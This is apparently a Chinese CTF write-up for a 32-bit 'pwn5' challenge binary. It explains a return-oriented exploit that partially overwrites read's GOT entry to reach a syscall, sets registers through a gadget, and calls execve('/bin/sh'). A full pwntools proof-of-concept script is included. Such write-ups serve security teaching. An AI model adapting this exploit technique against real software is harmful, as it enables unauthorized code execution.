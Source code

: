 
编译参数：

```
gcc pwn5.c -m32 -fno-stack-protector -o pwn5
```

checksec:

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

大体和pwn4一样，就是没有了atoi设置eax，但是我们可以通过read的入读字节数设置eax。这里有一个问题，我们要把got表的read改成syscall，但是又要使eax设置成0xB来调用syscall，这两者必须同时发生，所以我们在read之前多读一些’\0‘字节，总共读入11字节，且覆盖read的最低一字节，使read改到syscall。

![](read_write_accf0df1b7a0dfef64d8af65c8add828.png)

此外，根据gdb调试，这次没有上次那么幸运，edx在调用syscall的时候并不是0，所以调用是失败的，但根据人脑查找，这个程序有这样一处代码可以当gadget用。

![](read_write_1b5247ed4d475e444e4510d403db9e90.png)

最后依然是通过syscall执行execve("/bin/sh",0,0)。

poc：

```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['terminator','-x','bash','-c']

cn = process('./pwn5_2')

bin = ELF('./pwn5_2')

def z():
	return 0
	return raw_input()

p1ret = 0x080482c9
p3ret = 0x080484a9
p_ebx_ret = p1ret
pay = 'a'*0x28 + 'bbbb' 
pay += p32(bin.plt['read']) + p32(p3ret) + p32(0) + p32(bin.bss()) + p32(0x20)
pay += p32(bin.plt['read']) + p32(p3ret) + p32(0) + p32(bin.got['read']-0xa) + p32(0xb)
pay += p32(p_ebx_ret) + p32(bin.bss())
pay += p32(0x08048398)#set edx to zero
pay += p32(bin.plt['read'])

z()
cn.send(pay)
z()
cn.send('/bin/sh\x00')
z()
cn.send('\x00'*0xa+'\xdc')
z()

cn.interactive()
```
